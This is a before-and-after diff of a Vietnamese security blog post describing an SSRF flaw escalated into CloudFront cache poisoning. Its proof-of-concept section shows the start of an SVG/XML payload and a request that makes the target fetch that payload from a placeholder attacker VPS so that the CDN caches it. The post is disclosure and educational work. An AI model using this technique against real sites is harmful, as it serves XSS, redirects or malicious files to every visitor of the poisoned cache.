

Before and after one commit to thewindghost/thewindghost.github.io, a Markdown page: posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md, 2 parts joined by grey strips. Shown at 96% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md
+++ b/posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md
@@ -17,32 +18,21 @@ Hi, hôm nay mình sẽ chia sẻ về lỗ hổng `Cache Poisoning(Biến Thể
 
 ---
-## 2. Phát Hiện Cache Poisoning như nào ?
 
-Trong quá trình đang POC `SSRF` thì 1 anh hợp tác cùng phát hiện nó ép sử dụng `Response Header` như sau: `image/svg+xml` thì trước đó khi gửi `Request` cho nó `Fetch` tới Web Attacker mình đặt là `text/html` vì vậy luôn luôn báo 400 vì vậy anh ấy đã thử từng cái `Response Header` sau khi thử thành công thì khi sử dụng `image/svg+xml` thì là status 200.
+## 2. Phân biệt với Cache‑Poisoning “thông thường”
 
-- Đây là lúc dùng `text/html` status là 400
-
-![alt text](/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)
-
-- Còn đây là lúc dùng `image/svg+xml`
-
-![alt text](/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)
-
-hãy để ý phần `Content-Type` ở dòng thứ 2 của `Response Header` nó chấp nhận với `image/svg+xml` và nếu các bạn tinh ý có thể thấy rằng phần tấm ảnh thứ 4 hay không ở phần cuối `Response Header` sẽ thấy nó đã Save `Cache` vào `CloudFront` với `Response Header` là `X-Cache: Hit fromt cloudfront` và cái quan trọng nhất vẫn là cái `Age: 5`. Nghĩa là thật sự nó đã Save Vào `Cache`. Và 1 điều quan trọng nữa thật sự đây là 1 `biến thể` mình lần đầu gặp vì thông thường `Cache Poisoning` sẽ không save `Cache` thông qua `Fetch` tới `Server Attacker`.
-
-Note: Mình sử dụng https://requestrepo.com/#/requests để thực hiện thay đổi `Response Header`
-![alt text](/posts/image-post/cache-poisoning-via-fetching-data/5.png)
+| Cache‑poisoning Thông thường       | SSRF‑Logic Bug (Biến thể)     |
+|------------------------------------|-------------------------------|
+| Client gửi payload trực tiếp       | Payload qua SSRF intermediary |
+| CDN cache trực tiếp response       | CDN cache response SSRF trả về|
+| Điều khiển bằng header (Host/Vary) | Lỗi flow “Fetch → Cache → Serve”|
 
 ---
-## 3. Làm Sao mình có thể chứng minh chuẩn cho Vendor hiểu rằng thật sự là Cache Poisoning
 
-Dĩ Nhiên là phải cho họ thấy mình tấn công 1 người dùng như nào thông qua `Cache Poisoning` rồi!
+## 3. Proof‑of‑Concept
 
-Mình có `Payload` như sau:
+### 3.1 Payload SVG/XML (`poc.xml`)
 
-`Poc.xml`
 ```xml
-- Payload xml
 <?xml version="1.0" encoding="UTF-8" standalone="no"?>
 <svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <foreignObject width="100%" height="100%">
@@ -118,30 +71,26 @@ Một điểm quan trọng ở đây khi mình nhìn `Logs` của `Server Attack
 
-## 5. Sơ đồ và giải thích chi tiết hơn
+- Gửi request đến SSRF endpoint:
+  ```http
+  GET /media?u=http://VPS:5505/poc.xml HTTP/2
+  Host: vuln.example.com
+  ```
+- Response header trả về có:
+  ```
+  X-Cache: Hit from cloudfront
+  Age: 5
+  ```
+  → Chứng tỏ payload đã được cache.
 
-### + Phân biệt với cache poisoning “thông thường”
-
-- **Cache poisoning thường**
-  1. Attacker gửi request có payload ngay từ client.
-  2. Server hoặc CDN nhúng payload vào response.
-  3. CDN cache response và trả lại cho các client tiếp theo.
-  4. Công việc chính: tuỳ biến tiêu đề (`Host`, `Vary`, `Cache-Control`…) để điều khiển key cache khác nhau.
-
-- **Biến thể logic bug này**
-  1. **Trung gian là SSRF/Fetch**
-     - Payload (SVG/XML) được fetch từ **server attacker**, không phải từ browser nạn nhân.
-  2. **Server chính** vô tình để `Fetch` trả về response với header `Content-Type: image/svg+xml`, nên **CloudFront tự động cache**.
-  3. **Logic lặp lại**: sau khi cache, dù nạn nhân gửi yêu cầu nhiều lần, request không được chuyển tới SSRF nữa, vẫn sử dụng bản cache cũ—gắn chặt payload attacker lên nội dung trả về.
+![CloudFront Hit](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)
 
 ---
 
-### + Tại sao gọi là “logic bug” đúng hơn?
+## 4. Hậu quả
 
-1. **Lỗi thiết kế flow** chứ không chỉ là cấu hình cache sai.
-2. **Server attacker** được phép fetch bất kỳ URL nào và trả về thẳng cho CDN.
-3. **Flow “Fetch → Cache → Serve”** không có kiểm soát (whitelist domain, validate header response…), dẫn tới SSRF bị “leo thang” thành cache poisoning.
-4. Hậu quả nghiêm trọng hơn: không chỉ cache sai nội dung, mà còn **tấn công hàng loạt nạn nhân** thông qua payload SVG/redirect, XSS, Download File Malicious.
+- Payload attacker “đóng băng” trong CDN, **tất cả user** đều nhận nội dung độc hại mà không cần trigger SSRF lại.
+- Cho phép **tấn công hàng loạt**: redirect nạn nhân, XSS, download file độc hại…
 
 ---
 
-### + Flow diagram
+## 5. Mitigation
 
````
Also changed, not shown: other parts of posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md (+21 -54 lines).
